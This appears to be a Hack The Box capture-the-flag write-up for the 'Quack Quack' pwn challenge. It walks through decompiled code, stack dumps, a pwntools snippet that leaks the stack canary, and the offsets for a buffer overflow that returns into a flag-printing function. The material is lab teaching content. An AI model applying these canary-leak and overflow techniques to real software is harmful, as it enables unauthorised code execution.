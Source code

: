 # Quack Quack

## Synopsis

Quack Quack is an easy difficulty challenge that features leaking `canary` and overwrite the return address to perform a `ret2win` attack.

## Description

On the quest to reclaim the Dragon's Heart, the wicked Lord Malakar has cursed the villagers, turning them into ducks! Join Sir Alaric in finding a way to defeat them without causing harm. Quack Quack, it's time to face the Duck!

### Skills Required

* Canaries, Buffer Overflow.

### Skills Learned

* Calculating stack layout to leak address and perform `ret2win`.

## Enumeration

First of all, we start with a `checksec`:

```console
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'./glibc/'
```

#### Protections 🛡️

As we can see:

| Protection |  Enabled |                     Usage                     |
| :--------: | :------: | :-------------------------------------------: |
| **Canary** |     ✅    |         Prevents **Buffer Overflows**         |
|   **NX**   |     ✅    |      Disables **code execution** on stack     |
|   **PIE**  |     ❌    | Randomizes the **base address** of the binary |
|  **RelRO** | **Full** |    Makes some binary sections **read-only**   |

The program's interface:

<figure><img src="../../../../../.gitbook/assets/image (115).png" alt=""><figcaption></figcaption></figure>

We cannot understand many things from the interface so we need to dig deeper.

#### Disassembly

Starting with `main()`:

```c
00401605  int32_t main(int32_t argc, char** argv, char** envp)

00401611      void* fsbase
00401611      int64_t rax = *(fsbase + 0x28)
00401625      duckling()
00401633      *(fsbase + 0x28)
0040163c      if (rax == *(fsbase + 0x28))
00401644          return 0
0040163e      __stack_chk_fail()
0040163e      noreturn
```

As we can see, `main` only calls `duckling()`. Taking a look there.

```c
004014a0  int64_t duckling()

004014a0  {
004014af      void* fsbase;
004014af      int64_t canary = *(uint64_t*)((char*)fsbase + 0x28);
004014be      int64_t buf1;
004014be      __builtin_memset(&buf1, 0, 0x70);
0040153d      printf("Quack the Duck!\n\n> ");
0040154c      fflush(__TMC_END__);
00401562      read(0, &buf1, 0x66);
00401578      char* str_res = strstr(&buf1, "Quack Quack ");
0040158c      if (str_res == 0)
0040158c      {
00401598          error("Where are your Quack Manners?!\n");
004015a2          exit(0x520);
004015a2          /* no return */
0040158c      }
004015c4      printf("Quack Quack %s, ready to fight t…", &str_res[0x20]);
004015da      int64_t buf2;
004015da      read(0, &buf2, 0x6a);
004015e9      puts("Did you really expect to win a f…");
004015fc      if (canary == *(uint64_t*)((char*)fsbase + 0x28))
004015fc      {
00401604          return (canary - *(uint64_t*)((char*)fsbase + 0x28));
004015fc      }
004015fe      __stack_chk_fail();
004015fe      /* no return */
004014a0  }
```

As we can see, there are 2 buffers, `buf1[0x70]` and `buf2[]` of unknown size so far. The juice of the challenge is these 2 lines:

```c
char* str_res = strstr(&buf1, "Quack Quack ");
printf("Quack Quack %s, ready to fight t…", &str_res[0x20]);
```

Our first input goes to `buf1` and we get a leak of `str_res[0x20]`. That means we can leak up to `0x20` from the end of the buffer where the string `Quack Quack` is found in our input string. Luckily, we see that we can leak the `canary` address at such offset. After that, we can overflow the second buffer and perform a `ret2win`. There is a function called `duck_attack` that prints the flag.

```c
0040137f  int64_t duck_attack()
    
0040137f  {
0040138b      void* fsbase;
0040138b      int64_t rax = *(uint64_t*)((char*)fsbase + 0x28);
004013ae      int32_t fd = open("./flag.txt", 0);
004013ba      if (fd < 0)
004013ba      {
004013c6          perror("\nError opening flag.txt, please…");
004013d0          exit(1);
004013d0          /* no return */
004013ba      }
004013fe      while (true)
004013fe      {
00401406          char buf;
00401406          if (read(fd, &buf, 1) <= 0)
00401406          {
00401406              break;
00401406          }
004013e8          fputc(((int32_t)buf), __TMC_END__);
004013fe      }
0040140d      close(fd);
00401420      if (rax == *(uint64_t*)((char*)fsbase + 0x28))
00401420      {
00401428          return (rax - *(uint64_t*)((char*)fsbase + 0x28));
00401420      }
00401422      __stack_chk_fail();
00401422      /* no return */
0040137f  }
```

#### Debugging

Now, to prove all this theory we can check the debugging. Running the program and adding 8 "A". After `read`, we see the status of `$rsi`.

```gdb
pwndbg> x/20gx $rsi
0x7fffffffdd80:	0x4141414141414141	0x000000000000000a // 0x10
0x7fffffffdd90:	0x0000000000000000	0x0000000000000000 // 0x20
0x7fffffffdda0:	0x0000000000000000	0x0000000000000000 // 0x30
0x7fffffffddb0:	0x0000000000000000	0x0000000000000000 // 0x40
0x7fffffffddc0:	0x0000000000000000	0x0000000000000000 // 0x50
0x7fffffffddd0:	0x0000000000000000	0x0000000000000000 // 0x60
0x7fffffffdde0:	0x0000000000000000	0x0000000000000000 // 0x70
0x7fffffffddf0:	0x0000000000000000	0x5c9f27b935a3ab00 // 0x80
0x7fffffffde00:	0x00007fffffffde20	0x000000000040162a
0x7fffffffde10:	0x0000000000000000	0x5c9f27b935a3ab00
```

We see that the canary lies at `0x80` from the start of the buffer. As we can leak up to `0x20` bytes, we can find out that we leak the canary address (7 bytes and adding the last 0 due to `read`) at `0x71` bytes.

```python
r.sendlineafter('> ', b'A'* (0x65 - len('Quack Quack ')) + b'Quack Quack ')

r.recvuntil('Quack Quack ')

canary = u64(r.recv(7).rjust(8, b'\x00'))
```

After that, we need to calculate where we start to write our second input and check the `canary` and `return address` offsets.

```gdb
pwndbg> x/20gx $rsi
0x7fffffffdda0:	0x0000000a42424242	0x0000000000000000 // 0x10
0x7fffffffddb0:	0x0000000000000000	0x0000000000000000 // 0x20
0x7fffffffddc0:	0x0000000000000000	0x0000000000000000 // 0x30
0x7fffffffddd0:	0x0000000000000000	0x0000000000000000 // 0x40
0x7fffffffdde0:	0x0000000000000000	0x0000000000000000 // 0x50
0x7fffffffddf0:	0x0000000000000000	0x4d559fb679f97c00 // 0x60
0x7fffffffde00:	0x00007fffffffde20	0x000000000040162a
0x7fffffffde10:	0x0000000000000000	0x4d559fb679f97c00
0x7fffffffde20:	0x0000000000000001	0x00007ffff7c29d90
0x7fffffffde30:	0x0000000000000000	0x0000000000401605
```

We see that the `canary` is at `0x58` bytes from the start of the second buffer. Then a dummy address and then the `return address`. Knowing all this and the address of `duck_attack()`, we can craft our exploit.

## Solution

```console
Running solver remotely at 0.0.0.0 1337

Canary: 0x289b84d0de9a8500

Flag --> HTB{XXX}
```

